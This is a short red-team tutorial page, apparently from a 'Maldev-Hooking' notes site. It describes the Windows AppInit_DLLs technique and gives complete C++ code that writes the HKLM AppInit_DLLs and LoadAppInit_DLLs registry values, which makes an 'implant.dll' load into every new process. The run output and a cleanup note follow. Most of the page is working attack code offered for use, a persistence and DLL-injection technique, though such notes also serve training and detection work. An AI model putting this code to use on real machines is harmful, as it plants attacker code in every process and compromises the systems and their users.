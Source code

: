```yaml
---
title: AppInit
category: Maldev-Hooking
order: 2
---
```


AppInit (Application Initialization) is an infrastructure designed to allow developers to run custom code or modify the behavior of processes during the initialization phase of applications. It was primarily used in Windows operating systems prior to Windows 8.

So every process whill check the following two registers at startup:

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows\AppInit_DLLs
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows\LoadAppInit_DLLs
```

If `LoadAppInit_DLLs` is set to `1` will load the dll specified on `AppInit_DLLs` registry.

> **Note**: Local admin needed to modify `HLKM` registries.

So we just need to modify both registries:


# Code

```cpp
#include <windows.h>
#include <stdio.h>
#include <winreg.h>

#pragma comment(lib, "Advapi32.lib")

int main(void) {

    HKEY hKey;
    char * AppInit_data = "c:\\tools\\rtnotes\\implant.dll";
    DWORD LoadInit_data = 0x1;
    DWORD bytesOut = 0;

    LSTATUS stat = RegOpenKeyExA(HKEY_LOCAL_MACHINE, "Software\\Microsoft\\Windows NT\\CurrentVersion\\Windows", 0, KEY_READ | KEY_SET_VALUE, &hKey);
    if (stat == ERROR_SUCCESS)
        printf("[+] RegOpenKeyExA successfull!\n");
    else {
        printf("[!] Error accessing registry. Are you running as admin? (%d)!\n", stat);
        return -1;
    }

    //setting up AppInit_DLLs
    stat = RegSetValueExA(hKey, "AppInit_DLLs", 0, REG_SZ, (BYTE *) AppInit_data, strlen(AppInit_data));
    if (stat == ERROR_SUCCESS)
        printf("[+] AppInit_DLLs modified\n");
    else {
        printf("[!] Error accessing registry. Are you running as admin? (%d)!\n", stat);
        RegCloseKey(hKey);
        return -1;
    }

    //setting up LoadAppInit_DLLs
    stat = RegSetValueExA(hKey, "LoadAppInit_DLLs", 0, REG_DWORD, (BYTE *) &LoadInit_data, sizeof(LoadInit_data));
    if (stat == ERROR_SUCCESS)
        printf("[+] LoadAppInit_DLLs modified\n");
    else {
        printf("[!] Error accessing registry. Are you running as admin? (%d)!\n", stat);
        RegCloseKey(hKey);
        return -1;
    }

    RegCloseKey(hKey);
    return 0;
}
```

After the execution we can manually check the registries and see that our `implant.dll` is successfully added to the  `AppInit_DLLs` registry hive.

```
C:\Tools\rtnotes>.\rtnotes.exe
[+] RegOpenKeyExA successfull!
[+] AppInit_DLLs modified
[+] LoadAppInit_DLLs modified
```

![](/rtnotes/images/appinit-registries.png)

Finally we can launch any proccess for example a notepad and we can check that the `implant.dll` is successfuly loaded to each new process.


![](/rtnotes/images/appinit-executed.png)


> **Note**: Remember to change to 0 the `HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Windows\LoadAppInit_DLLs` registry to `0` to stop loading the DLL.